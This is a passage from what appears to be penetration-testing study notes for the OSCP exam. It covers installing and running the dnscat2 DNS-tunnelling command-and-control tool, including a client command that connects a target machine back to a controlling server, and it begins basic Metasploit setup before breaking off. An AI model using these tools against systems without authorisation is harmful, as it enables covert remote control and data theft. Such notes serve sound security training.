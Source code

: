         ```bash
        apt-get update  
        apt-get -y install ruby-dev git make g++  
        gem install bundler  
        git clone https://github.com/iagox86/dnscat2.git  
        cd dnscat2/server  
        bundle install
        ```

    -   Run dnscat2:  
    
        ```
        ruby ./dnscat2.rb  
        dnscat2> New session established: 1422  
        dnscat2> session -i 1422
        ```

    -   Target Machine:  
        [*https://downloads.skullsecurity.org/dnscat2/*](https://downloads.skullsecurity.org/dnscat2/)

        [*https://github.com/lukebaggett/dnscat2-powershell/*](https://github.com/lukebaggett/dnscat2-powershell/)

        `dnscat --host <dnscat server ip>`

The Metasploit Framework
======================================================================================================================

-   See [*Metasploit Unleashed
    Course*](https://www.offensive-security.com/metasploit-unleashed/)
    in the Essentials

-   Search for exploits using Metasploit GitHub framework source code:  
    [*https://github.com/rapid7/metasploit-framework*](https://github.com/rapid7/metasploit-framework)  
    Translate them for use on OSCP LAB or EXAM.

-   Metasploit

    -   MetaSploit requires Postfresql  
    
        `systemctl start postgresql`

    -   To enable Postgresql on startup  
    
        `systemctl enable postgresql`

-   MSF Syntax

    -   Start metasploit  
        
        `msfconsole  `
        
        `msfconsole -q`

    -   Show help for command  
    
        `show -h`

    -   Show Auxiliary modules  
    